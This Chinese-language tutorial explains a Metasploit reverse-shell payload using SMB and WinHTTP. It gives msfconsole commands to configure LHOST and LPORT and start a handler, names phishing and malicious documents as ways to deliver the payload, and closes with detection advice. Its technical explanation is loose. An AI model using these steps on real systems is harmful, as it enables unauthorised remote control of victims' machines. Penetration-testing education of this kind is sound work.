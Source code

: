 在 Metasploit 框架中的 `cmd/windows/smb/x64/custom/reverse_winhttp` 是一种 payload，它利用 SMB（Server Message Block）协议与 Windows 系统进行通信，并通过 WinHTTP 实现反向连接（reverse shell）。下面是详细的解释：

### SMB 详解

1. **概念**：
   - **SMB（Server Message Block）**：SMB 是一种网络文件共享协议，主要用于在网络中共享文件、打印机和串行端口。Windows 系统广泛使用 SMB 协议进行文件共享和其他网络通信。
   - **反向 shell（reverse shell）**：反向 shell 是一种技术，其中目标计算机主动连接到攻击者的计算机，并提供一个 shell 会话。这与绑定 shell（bind shell）相反，后者是在目标计算机上打开一个监听端口，等待攻击者连接。

2. **工作原理**：
   - `cmd/windows/smb/x64/custom/reverse_winhttp` payload 通过 SMB 协议与目标系统进行通信，利用 WinHTTP 库来创建一个反向 shell。
   - 一旦 payload 在目标系统上执行，目标系统会通过 HTTP 协议向攻击者的系统发起连接，请求执行命令或启动一个 shell 会话。

3. **用途**：
   - **远程控制**：利用反向 shell 技术，攻击者可以远程控制目标系统，执行命令和操作。
   - **网络渗透**：通过 SMB 协议进行通信，可以绕过某些网络防火墙和安全措施，隐蔽地进行渗透测试和攻击。

### 使用 `reverse_winhttp` 的步骤

1. **加载模块**：
   在 Metasploit 控制台中加载 `cmd/windows/smb/x64/custom/reverse_winhttp` payload：
   ```sh
   use payload/cmd/windows/smb/x64/custom/reverse_winhttp
   ```

2. **设置选项**：
   配置目标参数，如攻击者的 IP 地址和端口等：
   ```sh
   set LHOST <your_ip>
   set LPORT <your_port>
   ```

3. **生成和传输 payload**：
   生成 payload 并将其传输到目标系统。可以通过多种方式传输 payload，例如通过钓鱼邮件、恶意文档或其他社工手段。

4. **执行 payload**：
   在目标系统上执行传输的 payload，启动反向连接。

5. **监听连接**：
   使用 Metasploit 设置监听器，等待目标系统的反向连接：
   ```sh
   use exploit/multi/handler
   set PAYLOAD cmd/windows/smb/x64/custom/reverse_winhttp
   set LHOST <your_ip>
   set LPORT <your_port>
   exploit
   ```

### 安全注意事项

- **检测和防御**：使用入侵检测系统（IDS）和防火墙规则监控 SMB 和 HTTP 流量，识别和阻止异常连接和数据传输。
- **权限控制**：限制 SMB 共享和网络通信的权限，防止未经授权的访问和操作。
- **日志审计**：启用详细的日志记录，审计系统中的网络活动和命令执行，以便及时发现和响应潜在的攻击。

### 总结

`cmd/windows/smb/x64/custom/reverse_winhttp` 是一种利用 SMB 协议和 WinHTTP 实现反向连接的 Metasploit payload。它通过在目标系统上执行 payload，启动反向连接，允许攻击者远程控制目标系统。这种方法结合了 SMB 协议的网络通信和 WinHTTP 的 HTTP 请求，增加了攻击的灵活性和隐蔽性。管理员应采取适当的安全措施来检测和防御此类攻击。